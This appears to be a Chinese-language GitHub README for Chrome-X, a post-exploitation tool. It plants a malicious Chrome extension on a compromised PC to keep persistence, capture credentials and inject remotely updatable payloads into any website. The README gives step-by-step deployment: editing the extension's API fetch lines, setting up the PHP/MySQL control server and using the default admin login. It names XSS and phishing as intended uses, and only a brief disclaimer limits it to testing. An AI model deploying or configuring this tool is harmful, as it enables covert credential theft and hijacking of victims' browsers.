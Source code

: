 # Chrome-X 后渗透持久化与凭据监听 🚀

## 项目介绍 📝

Chrome-X 是一个用于后渗透持久化与票据监听的平台。

## 功能特点 ✨

- 👥 每个插件用户可设置唯一值，以防接口暴漏被爆破
- 📊 后台可远程更新payload
- ⚙️ 实现持久化与凭据监听
- 🔒 自定义payload可实现不同场景需求
- 📱 可实现植入任何网站

## 系统要求 🛠️

- PHP 7.4 或更高版本
- MySQL 5.7 或更高版本

## 插件端配置 📦

1. background.js文件修改

   修改3和4行为用户的用户名和盐

   ```js
   const USERNAME = 'test';
   const SALT = '666';
   ```

   第19行 修改API

   ```js
   const response = await fetch(`https://127.0.0.1/api/getuser.php?hash=${hash}`
   ```

   

2. content.js文件修改

   修改第64行API

   ```js
   const response = await fetch(`https://127.0.0.1/api/getuser.php?hash=${hash}`, {
   ```


## 控制端部署 📦

1. 建议部署在宝塔 给所有文件权限 否则生成sessions会报错

2. 配置数据库文件 /config/config.php

3. 记得配置https 这是非常重要的 不然会导致https的站点无法生效

   ```js
   // MySQL数据库配置
   define('DB_HOST', 'localhost');
   define('DB_NAME', 'chrome_x');
   define('DB_USER', 'chrome_x');
   define('DB_PASS', 'chrome_x');
   define('DB_CHARSET', 'utf8mb4'); 
   ```

   

### 1. 使用指南 🔑

- 访问 `http://your-domain/`
- 默认管理员账号：admin 密码：admin_hack 【修改密码请到数据库和create_admin.php 第九行 手动修改 或者下个版本修复问题】
- ![登入](https://github.com/user-attachments/assets/e733ba3e-3ccd-4d82-a0d8-f26280af55f5)
- 首页添加用户 用户名和盐必须和插件的一致
- ![添加用户](https://github.com/user-attachments/assets/9b02a2e2-d908-46d8-87a6-a7a575b5f898)
- 设置payload 其他玩法自行发掘 如：XSS平台等
- ![payload](https://github.com/user-attachments/assets/d6a39074-ea8b-4494-b71b-aafe0dd1c050)
- 用户过多分辨不清 可添加备注
![备注](https://github.com/user-attachments/assets/dc22fe2e-0102-4490-94c0-ccbc91a74d32)
- 测试持久化劫持与凭据获取
- ![测试截图2](https://github.com/user-attachments/assets/ab62d618-05b4-48f6-80a8-41f4dbe12b27)
- ![测试截图](https://github.com/user-attachments/assets/8247864a-4d7a-4f6e-9d39-7438028cb622)
- ![XSS](https://github.com/user-attachments/assets/eda5c1fc-fc65-4ca5-89f5-6eba705ddca2)


### 

## 常见问题 ❓

### 1. 登录失败

- 检查用户名和密码是否正确
- 确认数据库连接是否正常
- 检查是否给了文件权限 因为sessions需要生成文件

### 2. 修改密码失败

- 此功能是个bug 或在下个版本修复
- 请进入数据库和create_admin.php 第九行 手动修改

### 3. 用途建议

- XSS
- 钓鱼

## 工具思路 🔒

1. 获取到PC权限后想进行后渗透和持久化凭据劫持，利用安装Chrome插件和控制端配置，可远程修改payload，凭据劫持配合XSS平台使用。

## 下载地址 💻



```
https://github.com/0xShe/Chrome-X
```

## 免责声明 🆘

本程序只允许测试使用，禁止用于违法犯罪活动，否则一切后果将自行承担。

